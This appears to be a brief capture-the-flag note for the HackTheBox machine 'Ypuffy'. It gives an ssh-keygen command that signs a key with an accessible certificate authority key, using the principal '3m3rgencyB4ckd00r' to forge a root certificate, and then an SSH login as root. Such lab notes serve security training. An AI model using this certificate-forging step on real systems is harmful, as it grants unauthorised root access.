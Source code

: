 # ssh sign login

generate signed private key

/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I root id_rsa

put idrsa id_rsa-cert.pub id_rsa.pub in same dir

login with ssh -i id_rsa root@127.0.0.1

hackthebox   Ypuffy
